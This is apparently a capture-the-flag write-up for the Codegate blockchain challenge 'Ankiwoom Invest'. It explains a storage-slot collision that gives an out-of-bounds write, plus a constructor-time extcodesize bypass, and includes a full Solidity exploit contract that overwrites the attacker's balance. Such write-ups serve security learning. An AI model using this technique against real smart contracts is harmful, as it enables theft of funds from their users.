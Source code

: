 # Ankiwoom Invest

**Author**: Robin_Jadoul

**Tags:** blockchain

**Points:** 964 (11 solves)

**Description:** 

> What do you think about if stock-exchange server is running on blockchain? Can you buy codegate stock?
> 
> service: nc 13.125.194.44 20000
>
> rpc: http://13.125.194.44:8545
>
> faucet: http://13.125.194.44:8080
>
> network info: mainnet, petersburg

The `info` struct in the `Proxy` contract overlaps with the storage slot of the `donaters` dynamic array in the `Investment` contract. This means that whenever `info` is written, if overwrites the length of `donaters` and hence we can achieve an out-of-bounds write. Observe that since the `msg.sender` address is written to the upper part of the length, we are likely to have enough reach to overwrite arbitrary interesting storage variables and in particular target our own balance.
Since we need an "invalid" `lastDonater` when using `modifyDonater`, we have to make sure that the `lastDonater` slot contains the address of a contract and a regular user address. That introduces the problem that we need to look like a regular address when performing the donation. To get around it, we can simply perform the setup and donation in the constructor of our contract, before we can be observed to have any nonzero `extcodesize`. Afterwards, we do the final steps from a regular contract function so that then the extcodesize is no longer seen as 0.

Some calculation on the storage addresses, a lot of fighting with the interaction with the RPC, and hoping our contract address is large enough to span the gap later, we get the flag.

**Exploit contract:**
```solidity 
import {Investment} from "./Investment.sol";
import {Proxy} from "./Proxy.sol";

contract Sploit {
    Investment target;

    constructor(Investment _t) {
        target = _t;
        target.init();
        // Get some moneh
        target.mint();
        // Buy stonks to donate
        target.buyStock("amd", 1);
        // Donate so we have a contract lastDonater and can modifyDonater
        // Do it in the constructor so somehow it seems like we're a user
        target.donateStock(address(this), "amd", 1);
    }
    fallback() external payable {}

    function continuesploit() public {
        target.modifyDonater(1); // no clue if this was needed, probably not but I added it before the solution suddenly started to work ¯\_(ツ)_/¯

        // Modify stuff, now we're a contract and no longer a user :)
        uint256 base_address = uint256(keccak256(abi.encode(uint256(2)))); // donaters
        uint256 mapping_slot = 7; // Balances
        address mapping_key = address(this);
        uint256 goal = uint256(keccak256(abi.encode(mapping_key, mapping_slot)));

        require(goal > base_address, "Wrong overflow");

        target.modifyDonater(goal - base_address);
        target.buyStock("codegate", 1);
        target.isSolved();
    }
}
```